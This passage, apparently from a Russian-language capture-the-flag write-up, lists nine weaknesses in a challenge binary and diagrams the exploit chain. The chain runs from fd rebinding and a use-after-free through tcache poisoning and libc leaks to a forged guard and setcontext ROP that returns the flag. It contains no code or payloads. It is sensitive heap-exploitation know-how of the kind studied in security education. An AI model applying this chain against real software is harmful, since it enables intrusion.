1. Go-слой хранит числовой fd, а descriptor arena позже привязывает этот номер к другому объекту.
2. Preflight сохраняет class операции, а не конкретный kind, и таблица содержит полезные коллизии.
3. Cleanup освобождает owned block, но не инвалидирует persistent borrowed window.
4. Размер block `0x400` совпадает с размером структуры job.
5. Filter позволяет менять данные через UAF и при этом проходит safe-link проверку.
6. Serial основан на обратимой функции, поэтому completion key восстанавливается из утечки.
7. Guard перестает быть барьером после утечки key и полей job.
8. Точная libc выдана вместе с задачей, поэтому offsets `setcontext`, функций и gadgets известны.
9. Штатная функция публикации результата позволяет вернуть флаг без shell.

Вся зависимость выглядит так:

```text
FD rebinding
-> kind collision
-> UAF
-> job overlap
-> heap, runtime и libfdhost leak
-> tcache poisoning
-> libc leak
-> guard forgery
-> setcontext ROP
-> /flag в штатном результате
```
